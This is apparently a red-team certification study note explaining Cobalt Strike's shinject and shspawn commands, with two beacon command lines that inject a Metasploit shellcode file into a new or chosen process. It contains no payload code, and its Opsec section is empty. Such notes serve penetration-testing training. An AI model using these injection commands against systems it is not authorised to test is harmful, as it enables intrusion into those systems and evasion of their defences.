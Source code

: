 
Cobalt Strike has two further generic injection commands that can be utilised for the purpose of session passing: `shinject` and `shspawn`.  

Both allow you to inject an arbitrary (custom) shellcode blob - shinject can inject into an existing process, and shspawn will spawn a new process.

## 🖊️ Usage

1) Create your raw shellcode which will produce a .bin file
2) Inject a process either with one of the mentioned commands:

Spawns a new process and injects the custom shellcode
`beacon> shspawn x64 C:\Payloads\msf_http_x64.bin`

Injects the raw shellcode into a process you choose
`beacon> shinject [PID] x64 C:\Payloads\msf_http_x64.bin`



### ⚠ Opsec




### Properties
---
📆 created   {{17-02-2024}} 16:34
🏷️ tags: #redteam #crto 

---

